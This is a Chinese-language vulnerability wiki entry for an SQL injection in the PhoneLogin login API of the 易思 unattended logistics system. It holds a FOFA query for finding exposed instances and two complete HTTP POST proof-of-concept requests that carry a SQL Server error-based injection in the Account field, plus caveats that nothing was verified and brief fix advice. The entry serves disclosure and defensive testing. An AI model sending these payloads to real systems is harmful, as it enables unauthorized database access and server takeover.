

# 易思智能物流无人值守 PhoneLogin Account SQL 注入

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## 条目说明

- 对象与具体问题：易思智能物流无人值守；PhoneLogin Account SQLi
- 版本、配置及部署条件：无版本，SQLServer特定函数
- 认证与权限前提：登录接口；密码加密/验证码参数条件
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 两变体是相同接口不同登录参数不是两漏洞
- Espassword值生成和isverify标志作用未说明，密码不应固定不透明
- MD5常量报错结果只图需文本及差分；FOFA截断/在野无证

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

易思智能物流无人值守系统 login SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

易思智能物流无人值守系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/api/SingleLogin"

POC/EXP：poc1

```http
POST /api/PhoneLogin/login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

Account=1'%20and%20sys.fn_sqlvarbasetostr(HashBytes('MD5','123'))=1--&Espassword=g5edid4OCFI32C5NPEZeXg%3D%3D
```





POC/EXP：poc2

```http
POST /api/PhoneLogin/login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

LoginUserType=0&DeviceType=2&Account=1'%20and%20sys.fn_sqlvarbasetostr(HashBytes('MD5','123'))=1--&BrowserType=Firefox&Verifycode=&IMEI=&isverify=false&SetOfBooks=Default&Espassword=1wD%2Bj6eIbahZGOatg1Spiw%3D%3D
```


## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
